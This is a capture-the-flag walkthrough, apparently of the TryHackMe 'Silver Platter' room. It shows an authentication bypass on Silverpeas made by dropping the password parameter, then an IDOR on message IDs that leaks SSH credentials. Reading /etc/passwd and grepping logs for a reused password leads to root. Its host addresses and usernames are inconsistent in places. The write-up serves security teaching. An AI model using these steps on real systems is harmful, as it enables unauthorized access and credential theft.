 # Silver Platter
Can you breach the server? 
## Difficulty: Easy
Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!

#### Make sure you wait a full 5 minutes after you start the machine before scanning or doing any enumeration. This will make sure all the services have started.

## Information Gathering
```bash
nmap -sC -sV 10.201.48.47 -oN nmap_silverplatter

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 20:35 WIB
Nmap scan report for http://10.201.48.47
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:7d:1c:13:cb:38:70:8b:a8:a3:aa:68:37:05:d7:62 (ECDSA)
|_  256 73:6b:45:1b:c0:de:81:a2:14:33:2a:b5:14:7f:dd:c5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.08 seconds

```
## Enumerations
+ In http://10.201.48.47#contact we found username is `scr1ptkiddy`

In url browser search `http://10.201.17.48:8080/silverpeas/AuthenticationServlet`

Get the Login Page

Next using burpsuite and remove the password like this
```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=scriptkiddy&DomainId=0
```

Next check notification in page and let's go `10.201.17.48:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`

Change number `5` in end to `6` like this `http://10.201.17.48:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`

Congrast you get credentials to ssh
```bash
Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 

Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```
## Exploit
```bash
ssh tim@10.201.17.48
The authenticity of host '10.201.17.48 (10.201.17.48)' can't be established.
ED25519 key fingerprint is SHA256:hY5jvHqhQA0e7k0GKNCJYtPcWhrWjGRF+V3LWjjiZUs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.201.17.48' (ED25519) to the list of known hosts.
tim@10.201.17.48's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Sep 24 12:14:27 PM UTC 2025

  System load:  0.080078125        Processes:                127
  Usage of /:   60.9% of 12.94GB   Users logged in:          0
  Memory usage: 55%                IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                 IPv4 address for ens5:    10.201.17.48

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

261 updates can be applied immediately.
180 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20
tim@ip-10-201-17-48:~$ ls -la
total 12
dr-xr-xr-x 2 root root 4096 Dec 13  2023 .
drwxr-xr-x 6 root root 4096 Jul 21 20:10 ..
-rw-r--r-- 1 root root   38 Dec 13  2023 user.txt

```
`Yeyy we get user.txt`

Next
```bash
tim@ip-10-201-17-48:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tyler:x:1000:1000:root:/home/tyler:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
tim:x:1001:1001::/home/tim:/bin/bash
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
```
`
grep -iR "password" /var/log
`
```bash
tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -
```
Password for tyler `_Zd_zx7N823/`
```bash
tim@ip-10-201-17-48:/var/log$ su tyler
Password: 
tyler@ip-10-201-17-48:/var/log$ 
```
```bash
tyler@ip-10-201-17-48:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-201-17-48:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on ip-10-201-17-48:
    (ALL : ALL) ALL
```
```bash
root@ip-10-201-17-48:/var/log# cd /root
root@ip-10-201-17-48:~# ls -la
total 52
drwx------  6 root root 4096 Jul 20 17:14 .
drwxr-xr-x 19 root root 4096 Sep 24 11:53 ..
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jul 20 17:07 .cache
-rw-------  1 root root   20 Jul 20 17:06 .lesshst
drwxr-xr-x  3 root root 4096 Dec 13  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   38 Dec 13  2023 root.txt
-rw-r--r--  1 root root   66 Dec 13  2023 .selected_editor
drwx------  3 root root 4096 Dec 12  2023 snap
drwx------  2 root root 4096 Jul 20 17:06 .ssh
-rwxr-xr-x  1 root root   97 Dec 13  2023 start_docker_containers.sh
-rw-r--r--  1 root root    0 Dec 13  2023 .sudo_as_admin_successful
-rw-------  1 root root 1309 Jul 20 17:14 .viminfo
```
```bash
root@ip-10-201-17-48:~# cat root.txt
THM{********************}
```
`Finnaly!!`
